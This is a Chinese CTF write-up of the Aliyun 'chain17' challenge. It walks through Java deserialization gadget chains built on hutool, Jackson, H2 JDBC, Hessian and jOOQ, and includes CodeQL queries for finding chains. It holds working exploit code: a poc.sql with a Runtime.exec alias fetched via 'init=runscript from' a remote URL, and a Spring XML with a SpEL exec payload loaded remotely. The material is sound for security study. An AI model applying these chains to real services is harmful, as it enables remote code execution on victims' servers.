# aliyun ctf chain17 回顾(超详细解读)-先知社区

> **来源**: https://xz.aliyun.com/news/16179  
> **文章ID**: 16179

---

# agent

## sink h2 jdbc attack

```
<dependency>
    <groupId>cn.hutool</groupId>
    <artifactId>hutool-all</artifactId>
    <version>5.8.16</version>
</dependency>

```

poc.sql

```
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "su18";}';
CALL EXEC ('calc')

```

attack

### official

```
String url = "jdbc:h2:mem:test;init=runscript from 'http://localhost:7777/poc.sql'";

Unsafe unsafe = (Unsafe) ReflectUtil.getFieldValue(null, ReflectUtil.getField(Unsafe.class, "theUnsafe"));
PooledDSFactory pooledDSFactory = (PooledDSFactory) unsafe.allocateInstance(PooledDSFactory.class);

Setting setting = new Setting();
setting.set("url",url);
ReflectUtil.setFieldValue(pooledDSFactory,"setting",setting);
HashMap<Object, Object> dsmap = new HashMap<>();
ReflectUtil.setFieldValue(pooledDSFactory,"dsMap",dsmap);

pooledDSFactory.getDataSource().getConnection();

```

unsafe.allocateInstance 这里主要是用来构造一个类。

ReflectUtil.setFieldValue 是hutool里面特有的用来反射用的。师傅们也可以用自己平时封装好的。

### my own

当然其实也不必像官方wp系的那样复杂。

```
String url = "jdbc:h2:mem:test;init=runscript from 'http://localhost:7777/poc.sql'";
Setting setting = new Setting();
setting.set("url",url);
PooledDSFactory pooledDSFactory = new PooledDSFactory(setting);
pooledDSFactory.getDataSource().getConnection();

```

### sink点的选择

至于为什么不选择jdk原生的getConnection来作为sink点，我感觉还是因为这个地方没有提供一个实例吧。就仅仅是加载驱动，然后连接。hutool 给了我们一个很好的这样的sink点。

```
Class.forName("org.h2.Driver");
DriverManager.getConnection("jdbc:h2:mem:test;init=runscript from 'http://localhost:7777/poc.sql'");

```

但是如果我们想要在getDataSource()的时候就已经触发getConnection 我们还需要多一个设置 initialSize

```
String url = "jdbc:h2:mem:test;init=runscript from 'http://localhost:7777/poc.sql'";
Setting setting = new Setting();
setting.set("url",url);
setting.put("initialSize", "1");  // initialSize 为 1
PooledDSFactory pooledDSFactory = new PooledDSFactory(setting);
pooledDSFactory.getDataSource();

```

## any get gadget

既然是 spring。首选肯定是jackson链。

```
String url = "jdbc:h2:mem:test;init=runscript from 'http://localhost:7777/poc.sql'";

Setting setting = new Setting();
setting.set("url",url);
setting.put("initialSize", "1");
PooledDSFactory pooledDSFactory = new PooledDSFactory(setting);
pooledDSFactory.getDataSource().getConnection();

ClassPool classPool = ClassPool.getDefault();
ClassPool.getDefault().appendClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
ctClass.removeMethod(ctMethod);
ctClass.toClass();

POJONode pojoNode = new POJONode(pooledDSFactory);
pojoNode.toString();

```

## toString gadget

知道source和sink之后其实我们就可以进行查询了。

```
/**
@kind path-problem
*/
import java
import semmle.code.java.dataflow.FlowSources

class Source extends Method{
    Source(){
        this.getDeclaringType().getASupertype*() instanceof TypeSerializable and
        this.getName().matches("put") and
        this.isPublic() and
        getDeclaringType().getQualifiedName().matches("%hutool%") and
        this.getNumberOfParameters() = 2
    }
}

class Sink extends Method{
    Sink(){
        exists(MethodAccess ac|  
            ac.getMethod().getName().matches("toString")
            and
            ac.getMethod().getNumberOfParameters() = 0 // this.hasNoParameters()
            and
            getDeclaringType().getQualifiedName().matches("%hutool%")
            and 
            this = ac.getCaller() 
        ) and
        getDeclaringType().getASupertype*() instanceof TypeSerializable

    }
} 

query predicate edges(Method a, Method b) { 
    a.polyCalls(b)and
    (a.getDeclaringType().getASupertype*() instanceof TypeSerializable or a.isStatic()) and
    (b.getDeclaringType().getASupertype*() instanceof TypeSerializable or b.isStatic()) 
}

from Source source, Sink sink
where edges+(source, sink)
select source, source, sink, "$@ $@ to $@ $@" ,
source.getDeclaringType(),source.getDeclaringType().getName(),
source,source.getName(),
sink.getDeclaringType(),sink.getDeclaringType().getName(),
sink,sink.getName()

```

挑选一个。



我们现在的目标就是put到toString  
然后就在hutools里面找找到了一个 JSONObject

```
wrap:800, JSONUtil (cn.hutool.json)
set:393, JSONObject (cn.hutool.json)
set:352, JSONObject (cn.hutool.json)
put:340, JSONObject (cn.hutool.json)
put:32, JSONObject (cn.hutool.json)
```

但是是有要求的。而且必须是jdk原生类才行。  


## AtomicReference

然后我们查找，发现有一个 。这个结果其实听过的，我过滤的这么严格，最后还能有700多个结果。过滤的不太严格的话电脑就直接卡死了。我感觉可以利用的应该挺多的。

```
/**
@kind path-problem
*/
import java
import semmle.code.java.dataflow.FlowSources

class Source extends Method{ 
    Source(){  // java.util.concurrent.atomic.AtomicReference
        this.getDeclaringType().getASupertype*() instanceof TypeSerializable and
        this.getQualifiedName().matches("java.util.concurrent.atomic.AtomicReference%") and
        not this.getDeclaringType().getASupertype*() instanceof TypeNumber and
        not this.getQualifiedName().matches("cn.hutool.json.JSON%") and
        not this.getQualifiedName().matches("java.lang.CharSequence%") and
        not this.getQualifiedName().matches("java.sql.SQLException%") and
        not this.getQualifiedName().matches("java.util.Map%") and
        not this.getQualifiedName().matches("java.util.Date%") and
        not this.getQualifiedName().matches("java.util.Calendar%") and
        not this.getQualifiedName().matches("java.time.temporal.TemporalAccessor%") and
        not this.getQualifiedName().matches("java.lang.Enum%") and
        this.getName().matches("toString") and
        this.isPublic() and
        this.getNumberOfParameters() = 0
    }
}

class Sink extends Method{
    Sink(){
        exists(MethodAccess ac|  
            ac.getMethod().getName().matches("toString")
            and
            ac.getMethod().getNumberOfParameters() = 0 // this.hasNoParameters()
            and 
            this = ac.getCaller()
        ) and
        getDeclaringType().getASupertype*() instanceof TypeSerializable

    }
} 

query predicate edges(Method a, Method b) { 
    a.polyCalls(b)and
    (a.getDeclaringType().getASupertype*() instanceof TypeSerializable or a.isStatic()) and
    (b.getDeclaringType().getASupertype*() instanceof TypeSerializable or b.isStatic()) 
}

from Source source, Sink sink
where edges+(source, sink)
select source, source, sink, "$@ $@ to $@ $@" ,
source.getDeclaringType(),source.getDeclaringType().getName(),
source,source.getName(),
sink.getDeclaringType(),sink.getDeclaringType().getName(),
sink,sink.getName()

```



AtomicReference 这个类的toString方法，会调用自身value属性的toString。

```
String url = "jdbc:h2:mem:test;init=runscript from 'http://localhost:7777/poc.sql'";
Setting setting = new Setting();
setting.set("url",url);
PooledDSFactory pooledDSFactory = new PooledDSFactory(setting);

//  pooledDSFactory.getDataSource();
ClassPool classPool = ClassPool.getDefault();
ClassPool.getDefault().appendClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
ctClass.removeMethod(ctMethod);
ctClass.toClass();

POJONode pojoNode = new POJONode(pooledDSFactory);

//   pojoNode.toString();
Object object = new AtomicReference<>(pojoNode);
//   object.toString();

JSONObject jsonObject = new JSONObject();
jsonObject.put("aaa",object);

```

## unsafe.allocateInstance

PooledDSFactory pooledDSFactory = new PooledDSFactory(setting);

这样实例化出来的 pooledDSFactory 是无法被序列化的。

Unsafe中提供allocateInstance方法，仅通过Class对象就可以创建此类的实例对象，而且不需要调用其构造函数、初始化代码、JVM安全检查等

## writeMapBegin

为什么要用这种方法将 JSONObject 写入进去。

```
hessian2Output.writeMapBegin(JSONObject.class.getName());
hessian2Output.writeObject("whatever");
hessian2Output.writeObject(object);
hessian2Output.writeMapEnd();
hessian2Output.close();

```

因为会提前触发put方法，导致 entries 的value没有值。上面那个其实就相当于构造一个map，然后kay和value分别是"whatever" 和 object。

```
JSONObject entries = new JSONObject();
entries.put("aaa",object);
hessian2Output.writeObject(entries);

```

## Bean

这个地方为什么要套上一层Bean

```
Bean bean = new Bean();
bean.setData(SerializeUtil.serialize(pooledDSFactory));

```

问题就在于JavaDeserializer实例化PooledDSFactory的时候调用的是无参构造。



```
createDbSetting:87, GlobalDbConfig (cn.hutool.db)
<init>:50, AbstractDSFactory (cn.hutool.db.ds)
<init>:25, PooledDSFactory (cn.hutool.db.ds.pooled)
<init>:21, PooledDSFactory (cn.hutool.db.ds.pooled)
instantiate:313, JavaDeserializer (com.alibaba.com.caucho.hessian.io)
readObject:202, JavaDeserializer (com.alibaba.com.caucho.hessian.io)
```

若是无参构造，走到这里的时候会去加载配置文件。然后没有配置文件的话就会抛出异常报错。



## POJONode

```
getDataSource:62, DSFactory (cn.hutool.db.ds)
invoke:568, Method (java.lang.reflect)
serializeAsField:688, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
serializeFields:772, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std)
serialize:178, BeanSerializer (com.fasterxml.jackson.databind.ser)
serializeAsField:732, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
serializeFields:772, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std)
serialize:178, BeanSerializer (com.fasterxml.jackson.databind.ser)
```

看最后的那几步。

套一层Bean和没有多套那一层Bean多了最后那重复的三步。其实就是多了一个递归调用。

首先在这个地方找到value对应的Serializer，然后进行serialize。

SerializerProvider.defaultSerializeValue()



然后是获取对应的File。

BeanSerializer.serialize()



然后通过反射调用对应的get方法。然后get到对应的value。此时的value就已经是PooledDSFactory了。然后再进行一次这样的步骤，调用PooledDSFactory的任意get方法。

BeanPropertyWriter.serializeAsField()



# server

## sink

poc.xml

```
<?xml version="1.0" encoding="UTF-8"?>  
<beans xmlns="http://www.springframework.org/schema/beans"  
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">  
    <bean id="evil" class="java.lang.String">  
            <constructor-arg value="#{T(Runtime).getRuntime().exec('open -a Calculator')}"/>  
    </bean></beans>

```

```
new ClassPathXmlApplicationContext("http://127.0.0.1:7777/poc.xml");
```

这样我们就可以达到命令执行的效果。然后我们就是如何来实例化这个类。

## 中间链思路

其实可以利用 EventListenerList ReadObject -> toString 这个gadget。

<https://xz.aliyun.com/t/15487> 今年羊城杯的时候遇到过。

然后再利用jackson toString -> 任意get的这个gadget  
然后寻找 任意get -> newInstance 这个 gadget 。这个链子我们用codeql寻找。

然后我们以任意的get方法作为source，以 newInstance 方法作为sink点。进行查找。

## codeql

经过codeql查询之后我们构建如下。

```
import java
import semmle.code.java.dataflow.FlowSources

class Source extends Method{
    Source(){
        this.getDeclaringType().getASupertype*() instanceof TypeSerializable and
        this.getName().indexOf("get") = 0 and
        this.getName().length() > 3 and
        this.isPublic() and
        this.fromSource() and
        this.hasNoParameters()
        and
        getDeclaringType().getQualifiedName().matches("%jooq%")
    }
} 

class Sink extends Method{
    Sink(){
        exists(MethodAccess ac|  
            ac.getMethod().getName().matches("%newInstance%")
            and
            ac.getMethod().getNumberOfParameters() = 1 
            and
            getDeclaringType().getQualifiedName().matches("%jooq%")
            and 
            this = ac.getCaller() 
        )
        and
        getDeclaringType().getASupertype*() instanceof TypeSerializable
    }
} 

query predicate edges(Method a, Method b) { 
    a.polyCalls(b)and
    (a.getDeclaringType().getASupertype*() instanceof TypeSerializable or a.isStatic()) and
    (b.getDeclaringType().getASupertype*() instanceof TypeSerializable or b.isStatic()) 
}

from Source source, Sink sink
where edges+(source, sink)
select source, source, sink, "$@ $@ to $@ $@" ,
source.getDeclaringType(),source.getDeclaringType().getName(),
source,source.getName(),
sink.getDeclaringType(),sink.getDeclaringType().getName(),
sink,sink.getName()

```



### 链子分析

我们还是从sink to source方向分析。  
Convert$ConvertAll.from()

  


代码大致逻辑就是获取 toClass 的 Constructor ，获取 Constructor 的 ParameterType 。将from作为参数。然后实例化。

我们需要将 constructor 设为 ClassPathXmlApplicationContext。再往前看就是这个类的 toClass属性。然后里面的这个参数需要通过 `Convert.convert(from, types[0])` 获取。

跟进 `Convert.convert()`。返回的就是我们的 from。这个from需要是是一个Object类，然后值为`http://127.0.0.1:7777/poc.xml`



然后看ConvertAll的构造函数，并看到了toClass如何赋值的。还有就是我们的这个from需要传入进来。



Sink2Source，然后我们继续往上找。

还是 Convert.convert() ，但是这次走的时else分支。


在实例化的时候对我们toClass属性进行赋值。



最后调用到ConvertAll的from。

